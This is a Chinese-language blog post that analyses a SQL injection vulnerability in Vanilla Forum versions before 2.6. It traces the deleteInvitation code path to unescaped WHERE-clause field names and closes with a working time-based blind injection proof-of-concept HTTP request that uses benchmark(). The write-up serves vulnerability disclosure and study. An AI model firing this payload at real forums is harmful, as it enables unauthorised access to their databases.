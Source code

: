 ```yaml
---
layout: post
title: Vanilla SQL Injection Vulnerability
categories: articles
---
```


<h1 align="center">{{ page.title }}</h1>
<p align="right" class="date">{{ page.date | date_to_string }} - Balis0ng</p>

## 简介

&nbsp;&nbsp;&nbsp;Vanilla是国外的一个论坛程序，是一款开源的PHP程序。github地址为:https://github.com/vanilla/vanilla 在Vanilla Forum 2.6之前，存在一个SQL注入漏洞，攻击者只需要注册登录一个会员即可利用该漏洞。

## 漏洞分析

首先在applications/dashboard/controllers/class.profilecontroller.php:274

```
public function deleteInvitation($invitationID) {
        $this->permission('Garden.SignIn.Allow');

        if (!$this->Form->authenticatedPostBack()) {
            throw forbiddenException('GET');
        }

        $invitationModel = new InvitationModel();
        $invitationModel->delete($invitationID);
        $this->informMessage(t('The invitation was removed successfully.'));
        $this->jsonTarget(".js-invitation[data-id=\"{$invitationID}\"]", '', 'SlideUp');

        $this->render('Blank', 'Utility');
    }
```

这个函数有个形参$invitationID，这个值其实是我们通过URL传递进来的，是我们可控的，并且这里需要注意的是，该值是可以为一个数组。

首先该函数第一行判断了权限，需要登录。

第二行是一个csrf token的判断，利用这个漏洞不能直接发POST包。

然后下面就到了关键的地方，可以看到这里将$invitationID带入到了delete函数中，我们跟踪一下该函数。

applications/dashboard/models/class.invitationmodel.php:225

```
public function delete($where = [], $options = []) {
    if (is_numeric($where)) {
        deprecated('InvitationModel->delete(int)', 'InvitationModel->deleteID(int)');
        $result = $this->deleteID($where, $options);
        return $result;
    }
    parent::delete($where, $options);
}
```

&nbsp;&nbsp;&nbsp;这里的参数$where就是我们上文的$invitationID，是可控的，然后这里又将$where带入到了另外一个delete函数中，继续追踪。

```
public function delete($where = [], $options = []) {
    if (is_numeric($where)) {
        deprecated('Gdn_Model->delete(int)', 'Gdn_Model->deleteID()');
        $where = [$this->PrimaryKey => $where];
    }

    $resetData = false;
    if ($options === true || val('reset', $options)) {
        deprecated('Gdn_Model->delete() with reset true');
        $resetData = true;
    } elseif (is_numeric($options)) {
        deprecated('The $limit parameter is deprecated in Gdn_Model->delete(). Use the limit option.');
        $limit = $options;
    } else {
        $options += ['rest' => true, 'limit' => null];
        $limit = $options['limit'];
    }

    if ($resetData) {
        $result = $this->SQL->delete($this->Name, $where, $limit);
    } else {
        $result = $this->SQL->noReset()->delete($this->Name, $where, $limit);
    }
    return $result;
}
```

然后该函数中又将$where带入到了$this->SQL->noReset()->delete函数中，继续追踪。

library/database/class.sqldriver.php:333

```
public function delete($table = '', $where = '', $limit = false) {
	if ($table == '') {
	    if (!isset($this->_Froms[0])) {
	        return false;
	    }

	    $table = $this->_Froms[0];
	} elseif (is_array($table)) {
	    foreach ($table as $t) {
	        $this->delete($t, $where, $limit, false);
	    }
	    return;
	} else {
	    $table = $this->escapeIdentifier($this->Database->DatabasePrefix.$table);
	}

	if ($where != '') {
	    $this->where($where);
	}

	if ($limit !== false) {
	    $this->limit($limit);
	}

	if (count($this->_Wheres) == 0) {
	    return false;
	}

	$sql = $this->getDelete($table, $this->_Wheres, $this->_Limit);

	return $this->query($sql, 'delete');
	}
```

&nbsp;&nbsp;&nbsp;该函数中对我们传递进来的$where有个判断和操作，如果不为空，就带入到where函数中去，跟踪一下该函数。

```
public function where($field, $value = null, $escapeFieldSql = true, $escapeValueSql = true) {
    if (!is_array($field)) {
        $field = [$field => $value];
    }

    foreach ($field as $subField => $subValue) {
        if (is_array($subValue)) {
            if (count($subValue) == 1) {
                $firstVal = reset($subValue);
                $this->where($subField, $firstVal);
            } else {
                $this->whereIn($subField, $subValue);
            }
        } else {
            $whereExpr = $this->conditionExpr($subField, $subValue, $escapeFieldSql, $escapeValueSql);
            if (strlen($whereExpr) > 0) {
                $this->_where($whereExpr);
            }
        }
    }
    return $this;
}
```

&nbsp;&nbsp;&nbsp;这里其实就是一个组装where语句的函数，由于$where我们可控制，导致这里组装后的where语句的字段处也可以控制，所以就产生了一个SQL注入漏洞。

## 漏洞证明

&nbsp;&nbsp;&nbsp;该漏洞利用需要用户登陆，因为是论坛，所以注册登录不是什么难事。
开头提了一下，由于有CSRF TOKEN的校验，所以不能直接发POST包，但是我们可以随便点击论坛一个正常的POST请求，然后用Burpsuite来改即可。
这里我使用的是延时注入，用的是benchmark函数。不同环境的延时时间也不一样的。
附上POC:

```
POST /profile/deleteInvitation?invitationID[1%3dbenchmark(40000000,sha(1))+and+1]=balisong HTTP/1.1
Host: localhost
Content-Length: 29
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://localhost
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://localhost/profile/
Accept-Language: zh-CN,zh;q=0.9
Cookie: Drupal.toolbar.collapsed=0; hd_sid=udVsUw; XDEBUG_SESSION=PHPSTORM; Vanilla=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1MjkyMDE2NTAsImlhdCI6MTUyNjYwOTY1MCwic3ViIjo3fQ.of1gk2CHyzeomQNSMWz_8WXXi_FfCwKxyctVWZlemKI; Vanilla-Vv=1526609650; Vanilla-tk=caEyM0dSVZC0xDhU%3A7%3A1526609650%3Ab23a6efff2dd9f026ffa87db10ba4119
Connection: close

TransientKey=caEyM0dSVZC0xDhU
```

然后这里延时了9秒。如图所示:

<img src="https://i.loli.net/2018/11/30/5c01538e4cdf6.jpg">

## 结语

&nbsp;&nbsp;&nbsp;其实这种漏洞很常见，很多程序在处理SQL语句的时候，都采用的这种写法，当然这种写法是没错的。主要还是因为开发人员太信任外部的输入了。

该程序在该版本相同类型的漏洞还有一个，大家有兴趣的话可以自己找一找。(当然我已经提交给厂商啦。)